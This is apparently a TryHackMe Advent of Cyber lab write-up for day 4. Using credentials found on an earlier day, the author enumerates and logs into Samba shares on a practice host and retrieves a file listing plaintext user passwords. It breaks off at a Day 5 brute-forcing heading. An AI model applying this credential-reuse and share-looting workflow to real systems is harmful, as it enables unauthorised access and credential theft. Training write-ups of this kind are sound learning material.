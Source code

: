 Username and password obtained from day3:
`ubuntu:S@nta2022`

## `smbclient` login 
```sh
sami@bt:~/Documents/THM/Rooms/Advent_of_Cyber/day4$ smbclient -U ubuntu -L qa.santagift.shop      
Password for [WORKGROUP\ubuntu]:

	Sharename       Type      Comment
	---------       ----      -------
	print$          Disk      Printer Drivers
	sambashare      Disk      Samba on Ubuntu
	admins          Disk      Samba on Ubuntu
	IPC$            IPC       IPC Service (ip-10-10-111-75 server (Samba, Ubuntu))
Reconnecting with SMB1 for workgroup listing.

	Server               Comment
	---------            -------

	Workgroup            Master
	---------            -------
	WORKGROUP            IP-10-10-111-75
sami@bt:~/Documents/THM/Rooms/Advent_of_Cyber/day4$ smbclient -U ubuntu //qa.santagift.shop/admins    
Password for [WORKGROUP\ubuntu]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Thu Nov 10 07:44:30 2022
  ..                                  D        0  Wed Nov  9 19:43:21 2022
  flag.txt                            A       23  Wed Nov  9 19:55:58 2022
  userlist.txt                        A      111  Thu Nov 10 07:44:29 2022

		40581564 blocks of size 1024. 38197528 blocks available
smb: \> 
^c

sami@bt:~/Documents/THM/Rooms/Advent_of_Cyber/day4$ smbclient -U ubuntu //qa.santagift.shop/sambashare
Password for [WORKGROUP\ubuntu]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Thu Nov 10 07:46:55 2022
  ..                                  D        0  Wed Nov  9 19:43:21 2022
  test                                N        0  Thu Nov 10 07:46:55 2022

		40581564 blocks of size 1024. 38197528 blocks available
smb: \> 
```
## the userlist
```sh
sami@bt:~/Documents/THM/Rooms/Advent_of_Cyber/day4$ cat userlist.txt
USERNAME	PASSWORD
santa		santa101
santahr		santa25
santaciso	santa30
santatech	santa200
santaaccounts	santa400
```
# Day 5 `Brute-Forcing` He knows when you're awake
## Enumeration